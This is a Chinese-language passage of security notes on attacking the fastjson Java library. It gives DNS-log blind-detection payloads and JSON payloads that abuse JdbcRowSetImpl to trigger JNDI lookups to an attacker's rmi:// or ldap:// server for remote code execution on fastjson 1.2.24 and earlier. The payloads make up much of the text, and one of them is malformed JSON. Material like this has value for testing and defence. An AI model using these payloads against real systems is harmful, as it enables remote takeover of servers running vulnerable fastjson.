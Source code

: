 **盲打 payload**(dnslog 处填写生成的域名)

```json
// 1.2.67版本前
{"zeo":{"@type":"java.net.Inet4Address","val":"dnslog"}}
// 1.2.67版本后
{"@type":"java.net.Inet4Address","val":"dnslog"}
{"@type":"java.net.Inet6Address","val":"dnslog"}
{"@type":"java.net.InetSocketAddress"{"address":,"val":"dnslog"}}
```

### fastjson<=1.2.24

`com.sun.rowset.JdbcRowSetImpl`这个类可以被利用这个类中有很多的`setXXX`方法，我们需要利用的是`setDataSourceName()`和`setAutoCommit()`这两个方法，通过 JNDI 注入来实现 RCE。

payload 一般长这样：

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://ip:port/Exploit","autoCommit":true}
或者
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://ip:port/Exploit","autoCommit":true}
```

攻击时只需要将如下内容发送给 fastjson:

![image-20230609101653093](img/image-20230609101653093.png)

payload 发送给服务端后会执行 setAutoCommit()，setAutoCommit()执行了 connct()函数，

![image-20230609101243387](img/image-20230609101243387.png)
